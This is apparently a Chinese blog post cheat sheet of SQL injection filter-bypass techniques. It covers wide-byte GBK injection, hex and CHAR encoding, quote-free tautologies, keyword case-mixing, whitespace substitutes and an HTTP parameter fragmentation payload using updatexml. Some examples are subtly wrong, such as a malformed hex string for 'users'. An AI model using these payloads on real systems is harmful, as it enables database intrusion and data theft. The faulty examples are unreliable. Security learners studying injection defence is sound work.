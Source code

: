 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## sql注入检测的一些绕过方法  
### 在mysql和mssql中重要的数据库：
- Information_schema数据库：作用是保存所有数据库信息。 
- information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍： 
- table_schema: 记录数据库名；
- table_name: 记录数据表名；
- table_rows: 关于表的粗略行估计；
- data_length : 记录表的大小（单位字节）；
- Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息

### 绕过sql注入检测的技巧:

### 遇到单引号转译 可以考虑使用16进制绕过：
table_name=’users ’——》table_name=0×757365727    
### 当’被转译为 \’ 时可以考虑宽字节注入：
   发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入   
### 避开单引号过滤：
   1.输入单引号没反应，尝试输入”  
   2. 可以使用ascII 替代字符串不必使用单引号：       
     - mysql:连接字符串是CONCAT函数,select name=concat(CHAR(97),char(114))   
-      Oracle: select name=chr(97)||chr(114)  
-      Ms-SQL:select name=char(97)+char(114)

### --注释符被阻止时考虑闭合: 
‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a    
### =号被阻止：  
使用<>（不等于）例：!(table_schema<>database())   
    
  ### select 被过滤：
使用 SeLEct selselectect、%53%45%4c%45%54、se%a0lect来绕过。   
  ### 空格过滤：  
1.使用注释 /\*foo\*/： 
select/*foo*/uername,password/\*foo\*/from  
2.使用特殊符号代替空格：
%0b TAB键（垂直）、%a0 空格 、%09 TAB键（水平）、%0a 新建一行、 %0c 新的一页 、%0d return功能 

在url中使用--注释时，可能会需要使用--+才能成功注释 
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-）%26） 

### HPF(http分割注入)
  post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1 ,这个构造语句把中间的password参数给注释掉了  





